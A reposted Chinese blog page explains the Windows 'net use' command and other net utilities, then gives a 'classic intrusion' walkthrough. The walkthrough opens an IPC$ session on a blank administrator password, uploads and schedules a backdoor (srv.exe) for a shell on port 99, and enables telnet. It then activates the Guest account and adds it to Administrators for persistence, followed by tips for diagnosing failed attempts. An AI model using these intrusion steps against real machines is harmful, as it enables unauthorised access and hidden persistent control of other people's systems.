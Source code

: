 # 			 [     net use命令详解（转）        ](https://www.cnblogs.com/mamiyiya777/p/11017875.html) 		

 

 

[net use命令详解](https://www.cnblogs.com/mamiyiya777/p/11017875.html)

1)建立空连接: 
net use \\IP\ipc$ "" /user:"" (一定要注意:这一行命令中包含了3个空格) 

2)建立非空连接: 
net use \\IP\ipc$ "密码" /user:"用户名" (同样有3个空格) 

3)映射默认共享: 
net use z: \\IP\c$ "密码" /user:"用户名" (即可将对方的c盘映射为自己的z盘，其他盘类推) 
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令 net use z: \\IP\c$ 

4)删除一个ipc$连接 
net use \\IP\ipc$ /del 

5)删除共享映射 
net use c: /del 删除映射的c盘，其他盘类推 
net use * /del 删除全部,会有提示要求按y确认 

3 查看远程主机的共享资源（但看不到默认共享） 
net view \\IP 

4 查看本地主机的共享资源（可以看到本地的默认共享） 
net share 

5 得到远程主机的用户名列表 
nbtstat -A IP 

6 得到本地主机的用户列表 
net user 

7 查看远程主机的当前时间 
net time \\IP 

8 显示本地主机当前服务 
net start 

9 启动/关闭本地服务 
net start 服务名 /y 
net stop 服务名 /y 

10 映射远程共享: 
net use z: \\IP\baby 
此命令将共享名为baby的共享资源映射到z盘 

11 删除共享映射 
net use c: /del 删除映射的c盘，其他盘类推 
net use * /del /y删除全部 

12 向远程主机复制文件 
copy \路径\srv.exe \\IP\共享目录名，如： 
copy ccbirds.exe \\*.*.*.*\c 即将当前目录下的文件复制到对方c盘内 

13 远程添加计划任务 
at \\ip 时间 程序名，如： 
at \\127.0.0.0 11:00 love.exe 
注意：时间尽量使用24小时制；在系统默认搜索路径（比如system32/）下不用加路径，否则必须加全路径 
14 开启远程主机的telnet 
这里要用到一个小程序：opentelnet.exe，各大下载站点都有，而且还需要满足四个要求： 

1）目标开启了ipc$共享 
2）你要拥有管理员密码和帐号 
3）目标开启RemoteRegistry服务，用户就该ntlm认证 
4）对WIN2K/XP有效，NT未经测试 
命令格式：OpenTelnet.exe \\server account psw NTLM认证方式 port 
试例如下：c:\>OpenTelnet.exe \\*.*.*.* administrator "" 1 90 

15 激活用户/加入管理员组 
1 net uesr account /active:yes 
2 net localgroup administrators account /add 

16 关闭远程主机的telnet 
同样需要一个小程序：ResumeTelnet.exe 
命令格式：ResumeTelnet.exe \\server account psw 
试例如下：c:\>ResumeTelnet.exe \\*.*.*.* administrator "" 

17 删除一个已建立的ipc$连接 
net use \\IP\ipc$ /del 

九 经典入侵模式 
这个入侵模式太经典了,大部分ipc教程都有介绍,我也就拿过来引用了,在此感谢原创作者!(不知道是哪位前辈) 

\1. C:\>net use \\127.0.0.1\IPC$ "" /user:"admintitrators" 
这是用《流光》扫到的用户名是administrators，密码为"空"的IP地址(空口令?哇,运气好到家了)，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为"空"，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。 
复制之前务必用net view \\IP这个命令看一下对方的共享情况 
\2. C:\>copy srv.exe \\127.0.0.1\admin$ 
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。 

\3. C:\>net time \\127.0.0.1 
查查时间，发现127.0.0.1 的当前时间是 2002/3/19 上午 11:00，命令成功完成。 

\4. C:\>at \\127.0.0.1 11:05 srv.exe 
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然你怎么启动啊，呵呵！） 

\5. C:\>net time \\127.0.0.1 
再查查到时间没有？如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。 

\6. C:\>telnet 127.0.0.1 99 
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。 
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了 

7.C:\>copy ntlm.exe \\127.0.0.1\admin$ 
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。 

\8. C:\WINNT\system32>ntlm 
输入ntlm启动（这里的C:\WINNT\system32>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现"DONE"的时候，就说明已经启动正常。然后使用"net start telnet"来开启Telnet服务！ 

\9. Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！(然后你想做什么?想做什么就做什么吧,哈哈) 

为了以防万一,我们再把guest激活加到管理组 
\10. C:\>net user guest /active:yes 
将对方的Guest用户激活 

\11. C:\>net user guest 1234 
将Guest的密码改为1234,或者你要设定的密码 

\12. C:\>net localgroup administrators guest /add 
将Guest变为Administrator^_^(如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 

另外,你也可以根据返回的错误号分析原因： 

错误号5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限； 
错误号51，Windows无法找到网络路径：网络有问题； 
错误号53，找不到网络路径：ip地址错误；目标未开机；目标lanmanserver服务未启动；目标有防火墙（端口过滤）； 
错误号67，找不到网络名：你的lanmanworkstation服务未启动或者目标删除了ipc$； 
错误号1219，提供的凭据与已存在的凭据集冲突：你已经和对方建立了一个ipc$，请删除再连； 
错误号1326，未知的用户名或错误密码：原因很明显了； 
错误号1792，试图登录，但是网络登录服务没有启动：目标NetLogon服务未启动； 
错误号2242，此用户的密码已经过期：目标有帐号策略，强制定期要求更改密码

 

   在使用这种方法屏蔽网络映射功能时，只需要先打开系统的运行对话框，并在其中执行“cmd”字符串命令，将系统界面切换到MS-DOS命令行状态；接着在DOS提示符下执行“net use  x：/del”字符串命令，就能将网络磁盘分区为“X”的网络映射连接断开了，要想快速地将本地计算机中所有的网络映射连接断开的话，只需要执行“net use * /del”字符串命令就可以了。

​    分类:             [IPC](https://www.cnblogs.com/mamiyiya777/category/1481798.html)